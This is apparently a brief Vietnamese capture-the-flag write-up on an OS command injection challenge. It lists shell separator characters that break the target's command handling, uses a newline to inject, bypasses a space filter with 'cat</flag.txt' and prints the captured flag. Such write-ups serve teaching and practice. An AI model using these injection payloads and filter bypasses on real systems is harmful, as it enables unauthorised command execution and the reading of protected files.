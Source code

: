 <h1>VUL: OS COmmand Injection</h1>

Các payload lỗi:
```powershell
;
$
'
"
|
||
ký tự khoảng trắng
```
Và ký tự thích hợp để đưa vào payload là '\n'

![](./img/1.png)

Đọc file:

![](./img/2.png)

Ký tự khoảng trắng đã bị filter, sử dụng cách sau:
```powershell
cat</flag.txt
```
![](./img/3.png)

```
FLAG: EHC{C0mm4nd_1nj3ct10n_9d5870ae9556d91f1764752a25e527f7}
```